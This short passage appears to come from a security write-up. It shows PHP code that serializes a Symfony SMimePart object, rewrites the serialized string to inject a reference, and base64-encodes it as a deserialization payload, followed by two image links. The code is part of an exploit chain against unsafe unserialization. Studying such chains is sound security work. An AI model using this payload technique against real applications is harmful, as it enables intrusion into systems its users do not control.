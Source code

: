 ```php
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center><img src="./images/18.png"></div>

<div align=center><img src="./images/19.png"></div>
